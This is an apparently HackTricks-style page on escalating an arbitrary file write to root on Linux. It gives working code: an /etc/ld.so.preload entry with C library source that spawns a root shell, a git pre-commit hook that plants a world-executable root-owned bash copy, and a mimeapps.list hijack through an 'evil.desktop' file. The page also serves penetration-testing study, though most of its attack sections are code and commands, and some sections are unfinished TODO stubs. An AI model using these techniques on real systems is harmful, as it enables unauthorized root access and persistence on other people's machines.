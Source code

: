 # Arbitrary File Write to Root

### /etc/ld.so.preload

This file behaves like **`LD_PRELOAD`** env variable but it also works in **SUID binaries**.\
If you can create it or modify it, you can just add a **path to a library that will be loaded** with each executed binary.

For example: `echo "/tmp/pe.so" > /etc/ld.so.preload`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unlink("/etc/ld.so.preload");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
//cd /tmp
//gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

### Git hooks

[**Git hooks**](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks) are **scripts** that are **run** on various **events** in a git repository like when a commit is created, a merge... So if a **privileged script or user** is performing this actions frequently and it's possible to **write in the `.git` folder**, this can be used to **privesc**.

For example, It's possible to **generate a script** in a git repo in **`.git/hooks`** so it's always executed when a new commit is created:

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/b' > pre-commit
chmod +x pre-commit
```

### Cron & Time files

TODO

### Service & Socket files

TODO

### binfmt_misc

The file located in `/proc/sys/fs/binfmt_misc` indicates which binary should execute whic type of files. TODO: check the requirements to abuse this to execute a rev shell when a common file type is open.

### Overwrite schema handlers (like http: or https:)

An attacker with write permissions to a victim's configuration directories can easily replace or create files that change system behavior, resulting in unintended code execution. By modifying the `$HOME/.config/mimeapps.list` file to point HTTP and HTTPS URL handlers to a malicious file (e.g., setting `x-scheme-handler/http=evil.desktop`), the attacker ensures that **clicking any http or https link triggers code specified in that `evil.desktop` file**. For example, after placing the following malicious code in `evil.desktop` in `$HOME/.local/share/applications`, any external URL click runs the embedded command:

```bash
[Desktop Entry]
Exec=sh -c 'zenity --info --title="$(uname -n)" --text="$(id)"'
Type=Application
Name=Evil Desktop Entry
```

For more info check [**this post**](https://chatgpt.com/c/67fac01f-0214-8006-9db3-19c40e45ee49) where it was used to exploit a real vulnerability.

